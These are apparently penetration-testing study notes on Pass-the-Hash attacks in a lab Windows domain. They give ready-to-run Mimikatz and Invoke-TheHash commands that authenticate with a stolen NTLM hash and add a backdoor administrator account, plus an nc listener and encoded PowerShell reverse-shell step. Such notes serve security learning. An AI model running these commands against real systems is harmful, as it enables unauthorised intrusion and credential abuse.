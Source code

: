 - **tags**: #passTheHash #credentials #mimikatz
- --------------------------
# Pass-The-Hash
*Pass-the-hash* is an exploitation technique that involves capturing or harvesting *NTLM hashes* and utilizing them to authenticate with the target legitimately.
Hashes can be [[Dumping Credentials|obtained in several ways]], including:
- *Dumping the local SAM* database from a compromised host.
- Extracting hashes *from the NTDS database (ntds.dit) on a Domain Controller.*
- Pulling the hashes *from memory (lsass.exe)*.
We can use multiple tools to facilitate a *Pass-The-Hash* attack:
- Impacket's PsExec module
- Metasploit PsExec mdule
- CrackMapExec
- [Mimikatz](https://github.com/gentilkiwi)
- [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash)
- Evil-winrm
- [[Remote Desktop Protocol#Pass the Hash|xfreerdp]]
## PtH Lateral Movements using Mimikatz
Mimikatz has a module named `sekurlsa::pth` that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password.
Let's say we have landed on a host (*MS01*) and acquired the hash for user julio and we would now like to authenticate to an SMB share found on *DC01* using its credentials:
```shell
mimikatz.exe
# check
privilege::debug
# thi will start a cmd that will use the user's username and hash for remopte authentication
sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.local /run:cmd.exe
# on the new cmd we will now be able to authenticate against the DC01 and list the Share contents
dir \\dc01\julio
```
## PtH with Invoke-TheHash
This tool is a collection of PowerShell functions for performing Pass the Hash attacks with WMI and SMB. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. **Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer.**
```powershell
# Importing Required Modules
Import-Module .\Invoke-TheHash.psd1

# Creating a User with Local Admin right on DC01
Invoke-SMBExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

# We can alternatively start a reverse shell
nc -lnvp 8001

Invoke-WMICExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e '<base64 connection>'"
```
## UAC Limits Pass the Hash for Local Accounts
UAC (User Account Control) limits local users' ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, it means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to perform remote administration tasks. *Setting it to 1 allows the other local admins as well*.
**Note:** There is one exception, if the registry key `FilterAdministratorToken` (disabled by default) is enabled (value 1), the RID 500 account (even if it is renamed) is enrolled in UAC protection. This means that remote PTH will fail against the machine when using that account.